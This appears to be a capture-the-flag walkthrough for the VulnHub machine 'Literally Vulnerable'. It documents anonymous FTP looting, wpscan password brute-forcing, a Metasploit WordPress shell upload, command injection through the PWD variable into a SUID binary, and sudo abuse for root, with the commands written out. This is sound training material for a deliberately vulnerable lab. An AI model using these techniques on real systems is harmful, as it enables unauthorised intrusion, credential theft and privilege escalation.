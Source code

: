 ```yaml
---
layout: post
title: " Literally Vulnerable - Vulnhub"
date: 2020-08-02
ctf: true
excerpt: "Walkthrough for Literally Vulnerable on Vulnhub"
tags: [website enumeration, anonymous ftp, privilege escalation]
comments: false
---
```


Literally Vulnerable is an easy to medium difficulty OSCP style box from [VulnHub](https://www.vulnhub.com). Below are the steps taken to compromise this box.

First, I enumerated open ports with **threader3000**.

![Literally Vulnerable threader3000](/assets/img/LiterallyVulnerable1.png)

Next, I ran **nmap -A -p 21,22,80,65535 [machine ip]** to enumerate the ports to find out more details about what services were running on them.

![Literally Vulnerable nmap](/assets/img/LiterallyVulnerable2.png)

It appears that there is an FTP server available with anonymous access, 2 HTTP servers on ports 80 and 65535, and SSH open. Let's take a look at the FTP server first. Let's run **ftp [machine ip]** and enter in the username of **anonymous** when prompted. Once connected, run **ls** and you will see a file called **backupPasswords**. Let's run **get backupPasswords** to save this file to our attacker pc.

![Literally Vulnerable ftp](/assets/img/LiterallyVulnerable3.png)

Let's terminate the ftp connection and run **cat backupPasswords** to see what is in the file.

![Literally Vulnerable backupPasswords](/assets/img/LiterallyVulnerable4.png)

It appears that this contains a list of passwords for something. Let's take a look at the website on port 80 to start with.

![Literally Vulnerable website port 80](/assets/img/LiterallyVulnerable5.png)

It appears that this is a WordPress site, but it didn't load properly. Looking at the links, it is looking for a website named **literally.vulnerable**. Let's run **echo "[machine ip] literally.vulnerable" >> /etc/hosts**.

![Literally Vulnerable update /etc/hosts](/assets/img/LiterallyVulnerable6.png)

Let's reload the website and see if it loads properly.

![Literally Vulnerable Wordpress site fixed](/assets/img/LiterallyVulnerable7.png)

This looks much better. I went to the Wordpress login link at the bottom of the page and tried using the username of **doe** on the login page, but it appeared that user didn't exist. I then tried with admin and used all the passwords in the **backupPassword** file, but none of them worked. I next took a look at the website on port 65535.

![Literally Vulnerable port 65535 website](/assets/img/LiterallyVulnerable8.png)

This appears to be a default configuration of Apache2. Let's run **gobuster dir -u http://literally.vulnerable:65535/ -w /usr/share/wordlists/dirb/big.txt -x .php,.txt -t 50**. It appears that there is a directory called **/phpcms**. Let's take a look at it.

![Literally Vulnerable gobuster port 65535](/assets/img/LiterallyVulnerable9.png)

It appears that this site has a password protected post by a user named **notadmin**. 

![Literally Vulnerable Wordpress](/assets/img/LiterallyVulnerable10.png)

I scrolled down and went to the login page. We know one of the user login names is **notadmin** based on who is posting. Let's see what we can find with **wpscan** for this site. Let's run **wpscan --url http://literally.vulnerable:65535/phpcms/ --enumerate**. This ends up returning 2 users, **maybeadmin** and **notadmin**.

![Literally Vulnerable wpscan 65535](/assets/img/LiterallyVulnerable11.png)

Let's try to crack one of these users with the passwords list we obtained earlier with **wpscan --url http://literally.vulnerable:65535/phpcms/ --usernames maybeadmin, notadmin --passwords backupPasswords**. After a few moments, we will crack the password for maybeadmin

![Literally Vulnerable maybeadmin password](/assets/img/LiterallyVulnerable12.png)

Let's navigate to **http://literally.vulnerable:65535/phpcms/wp-login.php** and attempt to login with the username **maybeadmin** and the password you just uncovered for this user.

![Literally Vulnerable WordPress dashboard](/assets/img/LiterallyVulnerable13.png)

Success! Let's see what information we can uncover. Let's take a look at the secure post we didn't have access to at the beginning. Click on **Posts** on the left hand menu and then you should be able to click on **Secure Post**

![Literally Vulnerable Secure Post](/assets/img/LiterallyVulnerable14.png)

This provides you with the credentials for **notadmin**. 

![Literally Vulnerable notadmin](/assets/img/LiterallyVulnerable15.png)

Let's login with this user's credentials, as we are not able to edit themes or add in/modify plugins as maybeadmin.

![Literally Vulnerable notadmin login](/assets/img/LiterallyVulnerable16.png)

Awesome **notadmin** is the admin to this WordPress site. Let's click on **Appearance** followed by **Theme Editor** so we can modify a PHP page with a reverse shell.

![Literally Vulnerable theme editor](/assets/img/LiterallyVulnerable17.png)

Next, on the right hand side, click on **404 Template** so we can paste in the reverse shell from [PenTestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to modify the IP address and port to match what you want to use on your attacker PC. Once finished, click on **Update File**.

![Literally Vulnerable PHP reverse shell](/assets/img/LiterallyVulnerable18.png)

Unfortunately, this results in an error message and we aren't able to save the changes to the PHP file. 

![Literally Vulnerable update failed](/assets/img/LiterallyVulnerable19.png)

Let's see if there's a MetaSploit module we can use instead. Let's launch metasploit with **msfconsole** and then run **search wp_admin**

![Literally Vulnerable msfconsole](/assets/img/LiterallyVulnerable20.png)

Let's attempt this exploit with **use exploit/unix/webapp/wp_admin_shell_upload ** and then run **show options**

![Literally Vulnerable msfconsole2](/assets/img/LiterallyVulnerable21.png)

Let's use **set PASSWORD [password from wpscan], set USERNAME notadmin, set TARGETURI /phpcms/, set RHOSTS [machine ip], set RPORT 65535** and run **show options** again to confirm all the options are set.

![Literally Vulnerable msfconsole3](/assets/img/LiterallyVulnerable22.png)

once enterd, type in **exploit** and press enter to start the exploit. You will soon get a meterpreter connection. Let's run **shell** to get to a shell and run **whoami** to see who we are logged in as.

![Literally Vulnerable meterpreter shell](/assets/img/LiterallyVulnerable23.png)

Let's see if we can upgrade our shell. After some trial and error it appears that python3 is installed, and we can get a shell with **python3 -c 'import pty; pty.spawn("/bin/sh")'**. Next, I navigated to the user home directory with **cd /home** and ran **ls** to see what was present there. It appears there are two users, **doe** and **john**. Let's go to doe's home directory with **cd doe**. The first flag is here, but we aren't able to read it. There's also a noteFromAdmin and an executable named **itseasy** that is a SUID that runs as the user **john**.

![Literally Vulnerable doe home folder](/assets/img/LiterallyVulnerable24.png)

Let's run the program with **./itseasy**. It appears to print the user's home directory, which is typically stored in the **$PWD** environmental variable. 

![Literally Vulnerable itseasy](/assets/img/LiterallyVulnerable25.png)

Let's modify the PWD variable to run bash instead with **export PWD=';/bin/bash'**. This will change this variable to execute a bash shell. Let's run **./itseasy**. You should now have a shell as john.

![Literally Vulnerable john shell](/assets/img/LiterallyVulnerable27.png)

Let's navigate to john's home directory with **cd /home/john** and run **ls -al** to see what's there. The user.txt file is present here, which can be viewed with **cat user.txt**.

![Literally Vulnerable user.txt](/assets/img/LiterallyVulnerable28.png)

At this point, I wanted to see if I could find any files that john owned throughout the victim machine, so I ran **find / -group john 2>/dev/null** which will eliminate any error messages and return only the files john has access to.

![Literally Vulnerable john owned files](/assets/img/LiterallyVulnerable29.png)

One stood out, **/home/john/.local/share/tmpFiles/myPassword**. Let's run **cat /home/john/.local/share/tmpFiles/myPassword**. This provides you with a note stating that john's password is encoded in base64. 

![Literally Vulnerable myPassword](/assets/img/LiterallyVulnerable30.png)

Let's run **echo "[base64 encoded password]"\|base64 -d**. This should provide you with john's credentials:

![](/assets/img/LiterallyVulnerable31.png)

Let's open a new terminal window on our attacker pc and run **ssh john@[machine.ip]** and enter the password that was just decoded.

![Literally Vulnerable SSH](/assets/img/LiterallyVulnerable32.png)

Let's run **sudo -l** and we see that john can run **/var/www/html/test.html** as root

![Literally Vulnerable sudo -l](/assets/img/LiterallyVulnerable33.png)

Let's navigate to that folder with **cd /var/www/html** and run **touch test.html**. Unfortunately, we are not able to create this file here with john.

![Literally Vulnerable Permission denied](/assets/img/LiterallyVulnerable34.png)

However, this is under a folder that www-data has access to. Let's go back to the other terminal window and type **exit** to leave the shell as john and go back to the **www-data** user.

![Literally Vulnerable www-data](/assets/img/LiterallyVulnerable35.png)

Let's run **touch /var/www/html/test.html** and see what happens

![Literally Vulnerable touch test.html](/assets/img/LiterallyVulnerable36.png)

Success! Let's run **echo "/bin/bash" >> /var/www/html/test.html** and **chmod +x /var/www/html/test.html**

![Literally Vulnerable update test.html](/assets/img/LiterallyVulnerable37.png)

This will allow it to run a bash shell as root since it is now executable. Next, go back to your SSH session as john and run **sudo ./test.html**. You should now have a root shell!

![Literally Vulnerable root shell](/assets/img/LiterallyVulnerable38.png)

Now, we can run **cd /root** followed by **ls** and **cat root.txt** to get the root flag. We can also run **cat /home/doe/local.txt** to get the local.txt flag from earlier.

![Literally Vulnerable root.txt local.txt](/assets/img/LiterallyVulnerable39.png)
